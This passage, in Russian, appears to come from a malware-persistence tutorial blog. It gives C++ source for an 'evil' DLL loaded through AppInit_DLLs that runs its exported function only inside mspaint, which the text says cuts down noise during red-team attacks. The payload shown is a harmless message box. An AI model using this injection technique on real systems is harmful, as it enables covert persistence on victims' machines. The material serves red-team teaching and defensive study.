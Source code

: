 Кроме того, логика первой DLL выглядит довольно странно, поскольку всплывают несколько окон с сообщениями, что создаёт "шум" в реальной атаке красной команды, например, при множественных соединениях обратного shell.

Я немного обновил логику `evil.dll`:

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
